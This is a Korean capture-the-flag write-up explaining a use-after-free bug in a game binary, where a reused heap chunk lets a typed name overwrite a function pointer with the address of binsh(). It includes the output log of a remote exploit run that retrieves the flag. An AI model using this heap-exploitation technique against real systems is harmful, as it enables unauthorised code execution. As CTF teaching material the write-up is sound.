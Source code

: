 `ptr = malloc(0x10);`에서 16byte만큼 함수 포인터 `ptr`에 힙 공간을 할당해주고 사용한 후 `free(ptr);`에서 풀어준다. 

게임에서 이겨서 이름을 입력받게 되면, `v7 = malloc(0x10);`에서 이름을 저장하기 위해서 다시 16byte짜리 공간을 할당한다. 

이때 `malloc()`이 할당하는 공간의 사이즈가 `free()`된 영역의 사이즈와 같으므로 처음에 사용했던 영역을 다시 할당하게 된다. 즉, `ptr`이 있었던 공간에 사용자가 입력한 이름이 들어가게 되는 것이다.

이후 다시 `fight`를 선택하면 검증 없이 함수 포인터 `ptr`의 주소로 실행 흐름이 바뀌게 되는데, 사실 `ptr`이 있었던 공간에는 사용자의 입력이 있으므로 만약 이름 대신 실행하려는 함수 주소를 넣으면 해당 함수가 실행되는 것이다.

바이너리에는 플래그 파일의 내용을 출력하는 `binsh()` 함수가 있으니까 해당 함수의 주소를 찾아서 넣으면 플래그가 나오게 된다.

### remote
```
  junhoyeo@Macbookui-MacBook-Pro  ~/Desktop/DIMICTF-quals  python2 exploit-uaf.py
[*] '/Users/junhoyeo/Desktop/DIMICTF-quals/uaf'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] binsh : 0x8048636
[+] Opening connection to 121.170.91.13 on port 10101: Done
1. Fight
2. Setting
3. Exit
>>>
[*] 2
Damages:
[*] 100
1. Fight
2. Setting
3. Exit
>>>
[*] 1
1. Hit
2. Run Away
>>>
[*] 1
???: Oh... So pain..
???: 99999900
Me: 100
You Win !
What your name?
[*] 6\x86\x0
OK BYE ~ 6\x86\x0

. Fight
2. Setting
3. Exit
>>>
[*] 1
dimi{don7_u$e_4ft3r_fr3e_p1e@s3}

[*] FLAG : dimi{don7_u$e_4ft3r_fr3e_p1e@s3}
[*] Closed connection to 121.170.91.13 port 10101
```

